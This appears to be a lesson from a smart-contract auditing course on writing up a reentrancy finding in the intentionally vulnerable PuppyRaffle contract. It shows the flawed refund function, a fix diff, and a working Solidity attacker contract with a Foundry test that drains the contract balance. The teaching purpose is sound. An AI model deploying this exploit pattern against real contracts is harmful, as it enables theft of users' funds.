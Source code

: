 ```yaml
---
title: Reporting - Reentrancy
---
```


_Follow along with this video:_

---

### Reporting Reentrancy

The next finding on our list is `reentrancy`, we finally get to write this up!

We know this is going to be a high, based on everything we went over and all we learnt about this vulnerability. Keeping in mind `<ROOT CAUSE> + <IMPACT>`, lets write a suitable title.

---

**Title:**

```
### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance
```

> **Note:** It's often a good idea to go through the steps of building a PoC to prove an issue before taking the time to write things up. We wrote a test for reentrancy, that we'll be using, earlier.

On to the next parts of the report template.

---

For our description, we want to detail the specifics of the vulnerability, where it's located and the impact it has, using code snippets is a great way to point to trouble areas being discussed.

````

**Description:** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that call do we update the `PuppyRaffle::players` array.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);
@>  players[playerIndex] = address(0);

    emit RaffleRefunded(playerAddress);
}
    ```
````

---

Next up is impact, let's clearly detail the effect of this vulnerability being exploited.

```
**Impact:** All fees paid by raffle entrants could be stolen by a malicious participant.
```

Simple enough.

---

Fortunately we wrote a test for the reentrancy vulnerability earlier, so we can absolutely paste that here. I like to explicitly walk through the steps of the exploit as well.

````
**Proof of Concept:**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the PuppyRaffle balance.

<details>
<summary>PoC Code</summary>

Add the following to `PuppyRaffle.t.sol`

    ```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}

// test to confirm vulnerability
function testCanGetRefundReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack

    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
    ```
</details>
````

---

Last part - Recommendation. We know this, this protocol should be following CEI.

````
**Recommendation:** To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally we should move the event emission up as well.

    ```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    +   players[playerIndex] = address(0);
    +   emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFees);
    -   players[playerIndex] = address(0);
    -   emit RaffleRefunded(playerAddress);
    }
    ```
````

---

Great! That's all there is to our `reentrancy` report. Be sure to mark these audit notes as actioned and we'll move on to the next vulnerability!
